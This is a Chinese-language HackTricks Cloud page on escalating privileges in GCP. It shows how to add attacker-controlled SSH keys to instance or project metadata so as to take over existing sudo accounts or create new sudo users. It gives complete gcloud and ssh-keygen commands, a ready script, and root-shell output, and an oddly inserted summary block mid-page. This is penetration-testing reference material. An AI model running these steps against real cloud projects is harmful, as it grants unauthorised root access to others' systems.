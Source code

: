 # GCP - 添加自定义SSH元数据

<details>

<summary><strong>从零到英雄学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

如果您能够**修改实例的元数据**，有许多方法可以在本地提升权限。以下是几种可能导致服务账户具有此权限的情况：

_**默认服务账户**_\
如果服务账户访问**范围**设置为**完全访问**或至少明确允许**访问计算API**，那么这种配置就**容易受到**提升权限的**攻击**。**默认**的**范围**是**不容易受到攻击**的。

_**自定义服务账户**_\
使用自定义服务账户时，需要以下IAM权限之一来提升权限：

* `compute.instances.setMetadata`（影响单个实例）
* `compute.projects.setCommonInstanceMetadata`（影响项目中的所有实例）

尽管Google[建议](https://cloud.google.com/compute/docs/access/service-accounts#associating\_a\_service\_account\_to\_an\_instance)不要为自定义服务账户使用访问范围，但仍然可以这样做。您将需要以下**访问范围**之一：

* `https://www.googleapis.com/auth/compute`
* `https://www.googleapis.com/auth/cloud-platform`

### **向自定义元数据添加SSH密钥**

GCP上的**Linux** **系统**通常会运行[Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)脚本。其中之一是[账户守护进程](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，它会**定期** **查询**实例元数据端点以获取**对授权的SSH公钥的更改**。

**如果遇到新的公钥**，它将被处理并**添加到本地机器**。根据密钥的格式，它将被添加到**现有用户的**`~/.ssh/authorized_keys`文件中，或者将**创建一个具有`sudo`权限的新用户**。

因此，如果您可以使用服务账户**修改自定义实例元数据**，您可以通过**获得对特权账户的SSH权限**来在本地系统上**提升**为root。如果您可以修改**自定义项目元数据**，您可以在当前GCP项目中运行账户守护进程的**任何系统上提升**为root。

### **向现有特权用户添加SSH密钥**

让我们从向现有账户添加我们自己的密钥开始，因为这可能会产生最小的干扰。

**检查实例中现有的SSH密钥**。选择其中一个用户，因为他们很可能拥有sudo权限。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
```markdown
# GCP Compute Privilege Escalation via Custom SSH Metadata

在GCP中，Compute Engine实例可以通过SSH密钥的元数据来控制对实例的访问。如果您有权限修改项目或实例的元数据，您可以通过添加自己的SSH公钥来提升权限。

## Scenario

假设您已经获得了对GCP项目的有限访问权限。您可以查看实例，但没有直接通过SSH登录的权限。您的目标是提升权限，以便能够以任何用户身份登录到实例。

## Attack Steps

1. **添加SSH公钥到项目元数据** - 如果您有权限修改项目级别的元数据，您可以添加自己的SSH公钥。这将允许您以任何用户身份登录到所有接受项目级别元数据的实例。

2. **添加SSH公钥到实例元数据** - 如果您只能修改特定实例的元数据，您仍然可以添加您的SSH公钥。这将允许您以任何用户身份登录到该实例。

## Mitigation

防范此类提权攻击的最佳方法是限制谁可以修改SSH密钥元数据。确保只有可信的管理员拥有这些权限，并且对这些权限的使用进行监控和审计。

## Conclusion

通过向GCP项目或实例的元数据添加自己的SSH公钥，攻击者可以提升权限并获得对实例的访问。监控和限制对SSH密钥元数据的修改是防止此类攻击的关键。
```
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
注意公钥的**略微奇怪的格式** - **用户名**列在**开头**（后面跟着冒号），然后在**末尾**再次出现。我们需要匹配这种格式。与正常的SSH密钥操作不同，用户名绝对重要！

**将带有用户名和密钥的行保存在一个名为** `meta.txt` **的新文本文件中**。

假设我们的目标用户是上面的`alice`。我们将为自己**生成一个新密钥**，像这样：
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
将您的新公钥添加到文件 `meta.txt` 中，模仿以下格式：
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
现在，您可以使用以下命令为您的实例**重写SSH密钥元数据**：
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
你现在可以按照以下方式**以`alice`的上下文访问shell**：
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **创建一个新的特权用户并添加 SSH 密钥**

按照上述步骤没有找到现有的密钥？在 `/etc/passwd` 中没有其他有趣的目标用户？

您可以**遵循上述相同的过程**，但只需**编造一个新的用户名**。这个用户将会自动被创建，并被赋予 `sudo` 权限。脚本化的过程看起来是这样的：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 项目级别的SSH密钥 <a href="#sshing-around" id="sshing-around"></a>

根据前一节中提到的细节，您可以尝试攻破更多的虚拟机。

我们可以通过[**在项目级别应用SSH密钥**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide)，这样一来，只要实例没有明确选择“阻止项目范围内的SSH密钥”选项，您就可以获得权限，**SSH进入具有特权账户**。
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
如果你足够大胆，你也可以直接输入 `gcloud compute ssh [INSTANCE]` 来使用你当前的用户名连接其他机器。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

* 如果你想在 **HackTricks中看到你的公司广告** 或者 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享你的黑客技巧**。

</details>
